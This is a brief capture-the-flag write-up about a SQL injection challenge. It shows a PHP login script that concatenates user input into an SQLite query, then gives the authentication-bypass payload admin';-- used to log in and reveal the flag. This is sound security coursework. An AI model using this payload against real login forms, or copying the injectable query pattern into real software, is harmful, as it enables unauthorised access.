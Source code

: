 # CTF 8 - SQL Injection

In this CTF, we were presented to a Website that gives the php file to the user everytime he tries to enter the website (This source code is in the appendix of this document). The website looks like this:

<div align="center">
  <img src="images/CTF8/sql_website.png" alt="Form2" width="50%">
</div>




The most important part of the document is this:

```php
<?php
    if (!empty($_POST)) {

        require_once 'config.php';

        $username = $_POST['username'];
        $password = $_POST['password'];
               
        $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                     
        if ($result = $conn->query($query)) {
                                  
            while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                $_SESSION['username'] = $data['username'];
           
                echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                include "/flag.txt";
                echo "</code>";

            }
        } else {            
            // falhou o login
            echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
        }
    }
?>
```

```
admin';--
```

```
<anything except nothing>
```
